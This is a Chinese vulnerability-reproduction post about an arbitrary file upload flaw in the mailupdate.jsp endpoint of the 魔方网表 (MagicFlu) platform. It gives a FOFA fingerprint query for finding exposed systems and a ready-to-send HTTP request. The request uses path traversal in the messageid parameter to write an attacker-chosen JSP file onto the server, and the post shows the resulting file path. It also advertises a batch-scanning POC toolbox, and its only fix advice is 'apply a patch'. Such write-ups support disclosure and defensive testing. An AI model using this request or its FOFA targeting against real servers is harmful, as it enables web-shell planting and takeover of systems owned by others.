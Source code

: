 #  魔方网表mailupdate.jsp接口存在任意文件上传漏洞   
南风漏洞复现文库  南风漏洞复现文库   2024-04-15 23:13  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 魔方网表mailupdate.jsp接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
魔方网表  
## 2.漏洞描述  
  
魔方网表帮助其搭建了支持信创环境的端到端的一站式数据智能填报系统,实现数据收集模板个性化定义,收集任务集中管控,结构化数据存储、分析及呈现等功能。魔方网表mailupdate.jsp接口存在任意文件上传漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
魔方网表  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUB4UTJ5enSQ8zQQjFSicEXIcBIl7fgviaq8xZWJUiaNk8V3rvRTZFlFKOAg/640?wx_fmt=jpeg&from=appmsg "null")  
  
魔方网表mailupdate.jsp接口存在任意文件上传漏洞  
## 4.fofa查询语句  
  
icon_hash="694014318"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/magicflu/html/mail/mailupdate.jsp?messageid=/../../../test1.jsp&messagecontent=%3C%25+out.println%28%22tteesstt1%22%29%3B%25%3E  
  
漏洞数据包：  
```
GET /magicflu/html/mail/mailupdate.jsp?messageid=/../../../test1.jsp&messagecontent=%3C%25+out.println%28%22tteesstt1%22%29%3B%25%3E HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUBVW9USDeNQqANmsc1slJmvH9t0NoOicnWFmaRlBvNOqZSibD5zdicKDgbA/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传后的路径： http://127.0.0.1/magicflu/test1.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUB1POS7SND4BBlibRrxic3AibdW2wEic5DIPvtOFmlyl4e2iaFGZKRQoGP73g/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUB7pjTVibnllcDoExgUR63VpRjq1VYbnlkrYVzQh9SUB7jicOs79kwFskg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUBRFymhYsSn6mzmVwCYN1ZBticHpxO6Ivvx1QVb9JqkoEb5Q6872VBjnw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUBRibL7D1MKhROMjwKa4HxcPuns4DS5AictCaJ1I5acVnhXK5uPghtBUzQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUByCVf9VmDm66CI1CKwk6ZnmYYsP8S5z160Mrlq4gibrGqiaFHibRBicPOlg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YYicf2evTexG9Cur1T5FFUB3Mp5PficG2icGoAicF4tqbyVWS8HIqjWUho0iaCLfjf1PLk1yUfAgwTHyg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[浙大恩特客户资源管理系统Ri0004_openFileByStream.jsp接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486163&idx=1&sn=be62990ea16076d51fba74099ada6664&chksm=974b87d4a03c0ec25569a4fe6371b5762a9974bd3ffc75871c8a8641d676354a0b4f3b1d8d83&scene=21#wechat_redirect)  
  
  
[泛微e-cology ProcessOverRequestByXml接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486150&idx=1&sn=9b0138cc0cb06187b6dc752daa33774a&chksm=974b87c1a03c0ed75d1bc10246fb12f5f72a8901dec2ec3579988da10c5dcf4fe61edad0f46e&scene=21#wechat_redirect)  
  
  
  
  
